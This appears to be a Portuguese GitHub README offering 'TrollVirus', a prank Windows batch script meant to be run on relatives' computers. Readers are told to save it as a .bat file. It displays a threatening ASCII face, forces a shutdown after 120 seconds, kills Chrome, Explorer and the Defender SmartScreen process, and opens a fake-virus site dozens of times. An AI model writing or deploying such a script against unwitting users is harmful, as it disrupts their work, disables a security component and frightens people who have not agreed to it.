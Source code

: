 # TrollVirus
Veja como sua mãe, pai ou aquele seus primos pequenos que gostam de mexer no seu computador vão reagir com isso.
copie daqui para baixo jogue em um bloco de notas:selecione a opção salvar>todos os arquivos>salvar como "nome que quiser".bat ve no que da, para desativar digite shutdown -a no cmd. 
@echo off
cls
start
start
start 
start
echo´´´´´´´´´´´´´´´EU TE AVISEI VAI PARA NAO CLICAR E AGORA´´´´´








echo ´´´´´´´´´´´´´´´´´´´´´7¶¶¶¶¶¶¶¶¶¶¶¶¶¶$7´´´´´´´´´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´´´´´´¶¶¶¶¶ø´´´´´´´´´´´´´¢¶¶¶¶¶7´´´´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´´´7¶¶¶´´´´´´´´´´´´´´´´´´´´´´´¶¶¶ø´´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´´¶¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´¢¶¶´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´´´ ´´´´´´´´´
echo ´´´´´´´´´´´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´´ ´´´´´´´´´
echo ´´´´´´´´´´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´ ´´´´´´´´´
echo ´´´´´´´´´´¶¶´1¶1´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´¶¶´ ´´´´´´´´´
echo ´´´´´´´´´´¶o´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´´¶´ ´´´´´´´´´
echo ´´´´´´´´´´¶o´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´´¶´ ´´´´´´´´´
echo ´´´´´´´´´´¶¶´´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶ø´7¶´ ´´´´´´´´´
echo ´´´´´´´´´´¢¶´´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´´¶¶´ ´´´´´´´´´
echo ´´´´´´´´´´´¶¶´o¶´´´1¢ø¶¶¶¶1´´´´´´¶¶¶¶ø¢1´´´¶¶´¶¶´´ ´´´´´´´´´
echo ´´´´´´´´´´´´¶¶o¶´$¶¶¶¶¶¶¶¶¶´´´´´¶¶¶¶¶¶¶¶¶¶´¶¶ø¶7´´ ´´´´´´´´´
echo ´´´´´´´´´´´´´¶¶¶´¶¶¶¶¶¶¶¶¶¶´´´´´¶¶¶¶¶¶¶¶¶¶´¶¶¶´´´´ ´´´´´´´´´
echo ´´´´¶¶ø´´´´´´´¶ø´´¶¶¶¶¶¶¶¶´´´´´´´¶¶¶¶¶¶¶¶o´´¶7´´´´ ´´ø¶¶$´´´
echo ´´´¶¶7¶¶´´´´´1¶´´´ø¶¶¶¶¶¶´´´7´7´´´o¶¶¶¶¶¶´´´¶¶´´´´ ´¶¶1¢¶7´´
echo ´´7¶´´´¶¶´´´´1¶´´´´´oøø´´´´¶¶7¶¶´´´´oøo´´´´´¶$´´´´ ¶¶´´´¶$´´
echo ´o¶¶´´´´¶¶¶¶´´¶¶´´´´´´´´´´¶¶¶´¶¶¶´´´´´´´´´´$¶´´¶¶¶ ¶´´´´¶¶ø´
echo ¶¶´´´´´´´´´¶¶¶¶¶¶¶o´´´´´´´¶¶¶´¶¶¶´´´´´´´7¶¶¶¶¶¶¶1´ ´´´´´´´¶¶
echo ¶¶¶¶¶¶¶¶1´´´´´o¶¶¶¶¶¶¶´´´´¶¶¶´¶¶¶´´´´$¶¶¶¶¶¶o´´´´´ ´¶¶¶¶¶¶¶¶
echo ´´oøø1´¶¶¶¶¶´´´´´´¶1¶ø¶´´´´??´´´´´´´´´¶¶¶´¶o´´´´´¶ ¶¶¶¶1´øøø´´
echo ´´´´´´´´´´7¶¶¶¶ø´´¶ø¶´¶¶´´´´´´´´´´´ø¶´¶1¶´´o¶¶¶¶o´ ´´´´´´´´´
echo ´´´´´´´´´´´´´´ø¶¶¶¶¶´¶´´¶$¶¶¶¶¶¶¶¶¶´ø1´¶¶¶¶¶$´´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´´´´´´´¶¶´¶´$¶´¶ø´¶´¶ø7¶oø¶´¶¶´´´´´´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´´´´´¶¶¶¶´ø¶´¶´¶¶´¶´¶ø´¶´¶¶´¶¶¶¶o´´´´´´ ´´´´´´´´´
echo ´´´´´´´´´´´´o¶¶¶¶´1¶´´´o¶¶¶¶ø¶o¶¶¶¶ø´´´¶ø´$¶¶¶¶´´´ ´´´´´´´´´
echo ´´´´¶¶¶¶¶¶¶¶¶o´´´´´¶¶´´´´´´´´´´´´´´´´´¶¶´´´´´´¶¶¶¶ ¶¶¶¶¶´´´´
echo ´´´¶¶´´´´´´´´´´´¶¶¶¶¶¶¶´´´´´´´´´´´´´¶¶¶ø¶¶¶o´´´´´´ ´´´´¶¶´´´
echo ´´´´¶¶¶´´´´´1¶¶¶¶´´´´´¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶´´´´´¶¶¶¶ø´´´ ´´¶¶¶´´´´
echo ´´´´´´¶¶´´´¶¶¢´´´´´´´´´´´7$¶¶¶¶¶¶7´´´´´´´´´´´7¶¶´´ ´¶¶´´´´´´
echo ´´´´´´¢¶´´¶¶´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¶¶´ ´¶¶´´´´´´
echo ´´´´´´´¶¶¶ø´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´´¢¶ ¶¶´´´´´´´
echo.
pause

shutdown -s -f -t: 120 -c "Nao avera uma proxima"

taskkill /f / im chrome.exe /t
taskkill /f /im windows explorer.exe /t
taskkill /f /im windows defender smartscreen.exe / t



start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start https://www.youtube.com/watch?v=7d0HpJ6bWho
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/
start http://geekprank.com/fake-virus/



